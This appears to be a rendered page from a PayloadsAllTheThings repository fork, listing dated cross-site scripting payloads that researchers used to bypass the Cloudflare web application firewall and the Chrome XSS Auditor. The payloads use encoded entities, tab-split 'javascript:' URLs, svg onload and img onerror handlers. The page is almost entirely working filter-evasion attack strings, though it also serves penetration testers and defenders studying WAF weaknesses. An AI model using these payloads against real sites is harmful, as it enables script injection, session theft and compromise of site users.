

repository: pchabermann/PayloadsAllTheThings · page: XSS Injection/3 - XSS Common WAF Bypass/index.html · generator: mkdocs

# Common WAF Bypass

> WAFs are designed to filter out malicious content by inspecting incoming and outgoing traffic for patterns indicative of attacks. Despite their sophistication, WAFs often struggle to keep up with the diverse methods attackers use to obfuscate and modify their payloads to circumvent detection.

## Summary

* [Cloudflare](#cloudflare)
* [Chrome Auditor](#chrome-auditor)
* [Incapsula WAF](#incapsula-waf)
* [Akamai WAF](#akamai-waf)
* [WordFence WAF](#wordfence-waf)
* [Fortiweb WAF](#fortiweb-waf)

## Cloudflare

* 25st January 2021 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)

    ```js
    <svg/onrandom=random onload=confirm(1)>
    <video onnull=null onmouseover=confirm(1)>
    ```

* 21st April 2020 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)

    ```js
    <svg/OnLoad="`${prompt``}`">
    ```

* 22nd August 2019 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)

    ```js
    <svg/onload=%26nbsp;alert`bohdan`+
    ```

* 5th June 2019 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)

    ```js
    1'"><img/src/onerror=.1|alert``>
    ```

* 3rd June 2019 - [@Bohdan Korzhynskyi](https://twitter.com/bohdansec)

    ```js
    <svg onload=prompt%26%230000000040document.domain)>
    <svg onload=prompt%26%23x000000028;document.domain)>
    xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
    ```

* 22nd March 2019 - @RakeshMane10

    ```js
    <svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
    ```

* 27th February 2018

    ```html
    <a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
    ```

## Chrome Auditor

NOTE: Chrome Auditor is deprecated and removed on latest version of Chrome and Chromium Browser.

* 9th August 2018

    ```javascript
    </script><svg><script>alert(1)-%26apos%3B
    ```
